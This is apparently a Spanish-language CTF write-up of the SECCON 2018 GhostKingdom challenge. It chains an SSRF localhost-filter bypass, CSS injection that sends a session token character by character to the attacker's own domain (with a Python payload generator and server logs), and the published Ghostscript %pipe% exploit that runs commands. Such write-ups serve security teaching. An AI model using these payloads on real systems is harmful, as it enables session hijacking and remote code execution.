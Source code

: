 # CTF SECCON 2018 - GhostKingdom

## Introducción

En la descripción de la prueba únicamente nos indican la siguiente URL
`http://ghostkingdom.pwn.seccon.jp/FLAG/`

![](img/ghostkingdom-001.png)

La pista es que la *flag* se encuentra en un archivo de este directorio, lo que nos hace sospechar desde un principio que el objetivo es conseguir ejecución de comandos para listar los archivos de este directorio.


En la página principal tenemos la opción de login, ademas de poder registrar usuarios.

![](img/ghostkingdom-002.png)

Registramos un usuario

```
http://ghostkingdom.pwn.seccon.jp/?user=patatas&pass1=fritas&pass2=fritas&action=register2
```

Una vez registrado, en el panel de opciones solamente tenemos habilitadas 2 opciones.

![](img/ghostkingdom-003.png)


## Take a Screenshot

La función de *screenshot* permite hacer una captura de pantalla de la URL que le indiquemos.

![](img/ghostkingdom-004.png)

![](img/ghostkingdom-005.png)


Si intentamos acceder a `http://127.0.0.1` obtenemos el siguiente mensaje:

```
You can not use URLs that contain the following keywords: 127, ::1, local
```

La solución es bastante simple, configurar nuestro propio dominio para que resuelva a `127.0.0.1`.

```
l.mydomain.com. IN A 127.0.0.1
```

![](img/ghostkingdom-006.png)

En esta aplicación web, todos los parámetros se pasan por GET. De esta forma podemos autenticamos en la aplicación a través del SSRF.

`http://l.mydomain.com/?user=patatas&pass=fritas&action=login`

![](img/ghostkingdom-007.png)

## Message to admin

Otra funcionalidad de la aplicación es enviar mensajes al administrador.

![](img/ghostkingdom-008.png)


Si marcamos la opción "Emergency" en el mensaje se formatea con CSS a través del parámetro con el mismo nombre.

```
css = c3BhbntiYWNrZ3JvdW5kLWNvbG9yOnJlZDtjb2xvcjp5ZWxsb3d9
```

![](img/ghostkingdom-009.png)


## PWN CSS

Modificando el parámetro `css` podemos inyectar código CSS a la página, sin embargo existen filtros que no nos permiten realizar una inyección HTML o XSS.

El parámetro `csrf` coincide con el valor de la cookie de sesión, por lo que el objetivo será exfiltrar esta información.

Debido a la forma en la que se carga el CSS, no es posible inyectar un payload recursivo que exfiltre el token completo en un solo screnshot, por lo que exfiltraremos cada carácter por separado.

El siguiente código hará que recibamos en nuestro servidor web el primer carácter.

```css
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/0_");}
input[name="csrf"][value^="0"]{background:url("http://mydomain.com/1_");}
...
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/e_");}
input[name="csrf"][value^="f"]{background:url("http://mydomain.com/f_");}
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
```

Una vez probado, realizamos el mismo proceso a través del SSRF. Con este script automatizamos gran parte del proceso de extracción.

```python
import sys
from base64 import b64encode
from urllib import quote as urlencode

if len(sys.argv)>1:
  inicio = sys.argv[1]
else:
  inicio = ''

element = 'input[name="csrf"]'
exfilturl = 'http://mydomain.com'
chars = '0123456789abcdef'

payload = ''
for c in chars:
  value = inicio + c
  payload += '%s[value^="%s"]{background:url("%s/%s");}\n' % (element, value, exfilturl, value+'_')

send_msg_url = 'http://l.mydomain.com/?css=' + urlencode(b64encode(payload)) + '%2&msg=test&action=msgadm2'
screenshot_exfil_url = 'http://ghostkingdom.pwn.seccon.jp/?url=' + urlencode(send_msg_url) + '&action=sshot2'
print(screenshot_exfil_url)
```

```
163.43.113.139 - - [27/Oct/2018:12:28:28 +0200] "GET /b_
163.43.113.139 - - [27/Oct/2018:12:30:50 +0200] "GET /b9_
...
163.43.113.139 - - [27/Oct/2018:12:53:09 +0200] "GET /b962fe196d05bbac1417_
163.43.113.139 - - [27/Oct/2018:12:53:40 +0200] "GET /b962fe196d05bbac14178_
163.43.113.139 - - [27/Oct/2018:12:54:21 +0200] "GET /b962fe196d05bbac14178a_

```

El siguiente script automatiza todo el proceso de extracción de la cookie: [seccon-ghostkingdom.py](https://github.com/jesux/ctf-write-ups/blob/master/seccon-2018/GhostKingdom/seccon-ghostkingdom.py)

Finalmente, la cookie obtenida es `b962fe196d05bbac14178a`.

Clonamos la cookie en el navegador y accedemos a la función de subida de imágenes.

![](img/ghostkingdom-010.png)

Una vez subida la imagen JPG, se utiliza el script `ghostMagick.cgi` para convertir la imagen a GIF.

Utilizamos el [exploit de Tavis Ormandy para Ghostscript](https://www.openwall.com/lists/oss-security/2018/08/21/2).

```
%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%ls /var/www/html/FLAG/) currentdevice putdeviceprops
```

![](img/ghostkingdom-011.png)

![](img/ghostkingdom-012.png)

![](img/ghostkingdom-flag.png)
